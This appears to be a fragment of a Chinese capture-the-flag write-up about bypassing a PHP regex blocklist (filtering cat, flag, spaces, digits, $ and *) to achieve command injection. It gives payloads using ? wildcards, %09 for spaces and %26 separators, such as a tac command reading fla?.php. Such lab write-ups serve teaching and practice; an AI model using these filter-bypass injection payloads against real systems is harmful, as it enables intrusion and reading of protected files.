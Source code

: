 过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*/i"
```

把数字都过滤了，还把通配符`*`进行了过滤，我们可以改用`?`进行匹配，空格的话还是可以继续使用%09，分隔符还是用%26，它们不属于过滤的数字范畴

查看flag位置

```
?c=ls%26
```

![image-20240120125924028](照片/image-20240120125924028.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag
